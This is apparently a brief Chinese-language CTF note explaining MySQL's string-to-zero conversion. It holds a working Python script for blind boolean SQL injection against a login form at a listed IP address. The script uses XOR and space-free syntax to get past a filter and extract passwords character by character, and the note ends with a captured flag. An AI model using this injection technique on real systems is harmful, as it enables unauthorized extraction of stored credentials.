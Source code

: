 # 32都过滤了
    字符串与数字比较会变成0
    在MySQL中，如果你尝试执行 `'admin' - 0`，MySQL会将字符串 `'admin'` 转换为数字。由于 `'admin'` 不是一个有效的数字字符串，MySQL会将其转换为0。因此，`'admin' - 0` 的结果是0
一会儿再做一遍
```python
import requests
# 目标 URL
url = "http://114.67.175.224:12077/login.php"
flag=''
for i in range(1,250):
        left=32
        right=128
        mid=(left+right)//2
        while(left<right):   payload="admin'^((ascii(mid((select(group_concat(passwd)))from(%s)))>%s))^'1"%(i,mid)
                data = {'uname': payload,
                        "passwd": "adadada"}
                res = requests.post(url, data=data)
                #print(res.text)
                if 'password' in res.text:
                        left=mid+1
                else:
                        right=mid
                mid=(left+right)//2
        if(mid==32 or mid==127):
                break
        print(mid)
        #flag=flag+chr(mid)
        print(flag)
```


必须要在url后面加上login.php

# 实时监控

执行

flag{680ef09599e011960603ca7c422e3b9a}flag{680ef09599e011960603ca7c422e3b9a}